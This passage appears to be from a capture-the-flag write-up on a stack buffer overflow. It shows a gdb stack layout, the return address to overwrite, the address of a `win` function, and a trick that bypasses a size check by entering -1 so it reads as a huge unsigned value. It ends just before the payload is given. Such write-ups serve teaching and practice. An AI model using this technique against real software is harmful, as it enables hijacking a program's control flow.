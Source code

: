 ```
	    | 0x00007ffd17398408 (rsp+0x0048) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |   |---- buffer
       	    | 0x00007ffd17398410 (rsp+0x0050) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |   |
       	    | 0x00007ffd17398418 (rsp+0x0058) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |   |
            | 0x00007ffd17398420 (rsp+0x0060) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |  /
            | 0x00007ffd17398428 (rsp+0x0068) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 | /
            | 0x00007ffd17398430 (rsp+0x0070) | d0 11 40 00 00 00 00 00 | 0x00000000004011d0 |
            | 0x00007ffd17398438 (rsp+0x0078) | f0 83 39 17 fd 7f 00 00 | 0x00007ffd173983f0 |
rbp ------> | 0x00007ffd17398440 (rsp+0x0080) | 70 94 39 17 fd 7f 00 00 | 0x00007ffd17399470 | <------ saved ebp of previous frame
            | 0x00007ffd17398448 (rsp+0x0088) | 87 2a 40 00 00 00 00 00 | 0x0000000000402a87 | <------ return address
            +---------------------------------+-------------------------+--------------------+
```


Again, we have to overwrite the return address in order to divert control flow.

```
Buffer:                           Random bytes:                     Return address:

00 00 00 00 00 00 00 00                                00           87 2a 40 00 00 00 00 00
00 00 00 00 00 00 00 00           d0 11 40 00 00 00 00 00
00 00 00 00 00 00 00 00           f0 83 39 17 fd 7f 00 00
00 00 00 00 00 00 00 00           70 94 39 17 fd 7f 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00
```

Let's find the address of the `win` function.


```
(gdb) disassemble win

; -- snip --
Dump of assembler code for function win:
   0x00000000004022cb <+0>:     endbr64 
; -- snip --
```


The program does not want us to overflow the buffer, so it tries to ensure that the payload size we set is lower than the buffer size.

However we can use the concept of [two's compliment](https://en.wikipedia.org/wiki/Two's\_complement) to our advantage.

The two's-compliment of `-1` is `0xffffffff`. If we enter the payload size to be `-1`, the program will interpret it as an unsigned `4294967295` instead of a signed `-1`.

And thus, we can pass the check.

Let's craft our payload:
